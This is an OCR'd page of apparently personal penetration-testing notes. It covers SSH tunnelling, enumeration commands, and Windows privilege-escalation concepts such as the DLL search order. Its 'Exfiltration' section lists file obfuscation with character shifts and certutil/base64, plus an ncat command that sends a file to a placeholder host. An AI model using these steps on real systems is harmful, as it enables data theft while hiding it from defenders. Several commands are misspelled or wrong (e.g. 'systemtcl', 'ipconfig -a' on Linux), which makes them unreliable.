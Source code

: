             ssh -S /tmp/gray <placeholder? -O forward -L<port>:<ip>:<port>

            ssh -S /tmp/gray dummy -O forward -D9050

#### Enumeration
            To find all the users on a box, processes, 
            Win:
                        net user
                        tasklist /v
                        tasklist /svc
		ipconfig /all
            Linux:
                        cat /etc/passwd
                        ps -elf
                        chkconfig			# SysV
                        systemtcl --type=service            # SystemD
		ipconfig -a			# SysV
  		ip a			$ SystemD
#### Exfiltration
	ssh <user>@<host> | tee
 	Windows
  		type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out
		certutil -encode <file> encoded.b64
  
  	Linux
   		cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt
		cat <file>> | base64
  
  	Encrypted Transport
   		scp <source> <destination>
		ncat --ssl <ip> <port> < <file>
		
## Windows Priv Escalation and Logging


### Win Access Control Model
	Access Tokens
	Sec Descriptiors
		DACL
		SACL
		ACEs
	
	DLL Search Order
		DLL Search Order -> 
			HKLM\System\Currentcontrolset\Control\Session Manager\KnownDLLs
			dir app ran from
			c code run from, getsystemdir
			c cdoe in the c+ function getwindows directory
			current dir
			
### Integrioty Mechanisms
	Untrusted
	Low
	Medium
	High
	System

